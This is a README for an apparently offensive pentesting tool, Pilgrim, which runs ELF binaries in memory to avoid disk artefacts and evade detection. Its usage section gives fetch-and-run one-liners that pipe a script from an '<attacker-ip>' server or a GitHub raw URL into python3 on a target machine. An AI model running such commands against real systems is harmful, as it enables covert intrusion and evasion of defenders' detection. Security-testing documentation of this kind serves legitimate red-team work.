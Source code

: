 # Pilgrim - Exec in Memory
Pilgrim is a staged python tool used to execute ELF binaries in memory without ever affecting the hard drive!
## Usage
It is best to host the pilgrim.py file in a directory alongside any ELF binaries and exploits that you plan to use during your engagement.

On your host machine, run the following:
```bash
python -m http-server
```
On the target machine, note the address of your system and run the following:
```bash
python3 <(curl http://<attacker-ip>:<port>/pilgrim.py)
```
or, using the official github version:
```bash
python3 <(curl https://raw.githubusercontent.com/diante0x7/Pilgrim/main/pilgrim.py)
```
It is wise to keep the http server open as long as necessary until you have completed execution of all of your payloads.
## Presentation
Within the repository, there is a Pilgrim.pdf file explaining the process and techniques used in development of this tool! Use that if there are any issues understanding execution or for demos of my Proof of Concept!
## Outro
This is a simple project that recalls me back to a time where such a tool was not widely available and it was necessary for me to evade detection by using this method. The techniques used in Pilgrim can be expanded upon and adapted to fit any and every need in the penetration testing space with endless possibilities! Hopefully you learned something new from this, and if not I hope you approve of my style of presentation.
